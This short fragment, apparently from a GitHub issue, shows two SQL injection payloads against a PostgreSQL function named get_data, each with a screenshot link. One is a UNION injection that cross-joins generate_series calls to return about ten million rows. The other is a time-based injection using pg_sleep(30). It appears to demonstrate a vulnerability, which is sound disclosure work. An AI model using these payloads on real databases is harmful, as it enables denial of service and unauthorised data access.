 ```sql
select * from get_data('1'' union
(select a1, cast (a1 as varchar), a1
from
(select generate_series a1 from generate_series (1,1000)) t1
cross join
(select * from generate_series (1,1000)) t2
cross join
(select * from generate_series (1,10)) t3) -- ');
```

![image](https://user-images.githubusercontent.com/26124396/209225306-178d1092-b537-4ecb-a470-9784708eb17b.png)

```sql
select * from get_data('1'' or exists (select 1 from pg_sleep(30)) -- ');
```

![image](https://user-images.githubusercontent.com/26124396/209225967-494f197b-3670-4c8a-bb63-0f243f874e5c.png)
